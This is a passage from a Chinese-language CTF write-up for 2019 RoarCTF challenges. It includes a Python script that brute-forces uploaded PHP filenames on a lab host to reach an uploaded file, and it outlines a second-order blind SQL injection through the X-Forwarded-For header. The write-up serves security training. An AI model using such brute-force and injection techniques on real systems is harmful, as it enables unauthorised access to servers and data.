 ```python
```

上传文件，根据回显可以知道我们上传的文件名在5da7e42793e0d-5da7e427ceb49之间。

```python
{"url":"\/Public\/Uploads\/2019-10-17\/5da7e42793e0d.jpg","success":1}
{"url":"\/Public\/Uploads\/","success":1}
{"url":"\/Public\/Uploads\/2019-10-17\/5da7e427ceb49.jpg","success":1}
```

爆破脚本

exp2:

```python
import requests

s = "0123456789abcdef"
for i in range(6,10):
    for j in range(0,16):
        for k in range(5,16):
            for l in range(0,16):
                for m in range(0,16):
                    filename = "5da7f131" + hex(i)[2:] + hex(j)[2:] + hex(k)[2:] + hex(l)[2:] + hex(m)[2:]
                    url = "http://8c985534-ecee-47b6-8dc9-0b7565ec2bb4.node3.buuoj.cn/Public/Uploads/2019-10-17/%s.php"%filename
                    r = requests.get(url)
                    print(str(r.status_code) + ":" + filename)
                    if r.status_code == 200:
                        print("------------------------------------------right_filename:"+filename)
```

爆破得到文件名，访问即可。



## online-proxy

考察sql盲注，注入过程如下

![](/home/cookie/Pictures/blogs/2019roarCTF/11.png)

这是X-Forwarded-For是我们的payload



![](/home/cookie/Pictures/blogs/2019roarCTF/13.png)

第二次写入X-Forwarded-For，我们的payload被写入Last Ip



![](/home/cookie/Pictures/blogs/2019roarCTF/12.png)

第三次访问的时候，我们的payload被执行

